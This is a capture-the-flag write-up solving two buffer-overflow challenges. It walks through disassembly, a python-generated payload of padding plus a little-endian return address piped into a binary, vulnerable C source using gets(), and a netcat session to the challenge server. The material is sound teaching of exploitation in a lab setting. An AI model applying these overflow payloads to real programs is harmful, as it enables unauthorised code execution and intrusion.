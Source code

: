 ```
   0x08048653 <+116>:	test   %eax,%eax
   0x08048655 <+118>:	je     0x8048689 <main+170>
   0x08048657 <+120>:	sub    $0xc,%esp
```

If 0, it jumps to `0x8048689`. If the other brach, it should be `0x08048657`.
So `lscpu` and know it's `Little Endian`. So it should be `57 86 04 08`.
So the payload can be `52A + \x57\x86\x04\x08`.

`(python -c 'print(52 * "A" + "\x57\x86\x04\x08")' ;cat) | ./color `

### simple bof

*easy*


```c
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}
```
We should overflow to turn `0xdeadbeef` in to `0x67616c66`-> `flag`
```
nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffda5ef8 | 00 00 00 00 00 00 00 00 |
0xffda5f00 | 00 00 00 00 00 00 00 00 |
0xffda5f08 | 00 00 00 00 00 00 00 00 |
0xffda5f10 | 00 00 00 00 00 00 00 00 |
0xffda5f18 | ff ff ff ff ff ff ff ff |
0xffda5f20 | ff ff ff ff ff ff ff ff |
0xffda5f28 | ef be ad de 00 ff ff ff |
0xffda5f30 | c0 85 71 f7 84 7f 5d 56 |
0xffda5f38 | 48 5f da ff 11 5b 5d 56 |
```